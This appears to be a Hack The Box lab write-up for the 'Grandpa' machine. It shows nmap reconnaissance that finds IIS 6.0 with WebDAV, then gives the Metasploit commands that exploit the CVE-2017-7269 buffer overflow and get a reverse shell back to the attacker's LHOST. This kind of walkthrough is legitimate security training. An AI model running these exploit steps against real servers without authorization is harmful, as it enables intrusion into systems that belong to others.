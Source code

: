 # HAck the Box - GrandPa

```CSS
Machine IP: 10.10.10.14 - Windows
Buffer Overflow (CVE-2017-7269)
```

### Port Scanning and Service Discovery
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.14 -oA nmap.surface

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 10:40 IST
Nmap scan report for 10.10.10.14
Host is up (0.090s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.14 -oA nmap.deep

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 10:43 IST
Nmap scan report for 10.10.10.14
Host is up (0.088s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Fri, 31 Mar 2023 05:13:46 GMT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```

### Checking for known Vulnerabilities:
![image](https://user-images.githubusercontent.com/83878909/229031974-84d9cf71-7f1b-49cb-b635-a053b238c4fc.png)

![image](https://user-images.githubusercontent.com/83878909/229034116-9125f8ce-83b2-4949-9b83-fd6426814ee8.png)
- [Read More...](https://www.fortinet.com/blog/threat-research/buffer-overflow-attack-targeting-microsoft-iis-6-0-returns)

![image](https://user-images.githubusercontent.com/83878909/229046417-4fd0508a-18d5-44e3-9537-e4dbb5a207d2.png)

### Search Exploit
- Name: `ScStoragePathFromUrl`
- Search Metasploit
![image](https://user-images.githubusercontent.com/83878909/229046789-aeee25e3-5734-4b54-89a3-67b7a29e8a55.png)

### Exploit
```CSS
msf6> use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf6> set RHOSTS 10.10.10.14
msf6> set LHOST 10.10.14.34
msf6> exploit
```
![image](https://user-images.githubusercontent.com/83878909/229052744-ef9e0f9b-9225-4d1b-92f4-c82e487d5e79.png)
![image](https://user-images.githubusercontent.com/83878909/229055181-d755ef79-b391-491d-aaab-4a7fe0258e39.png)

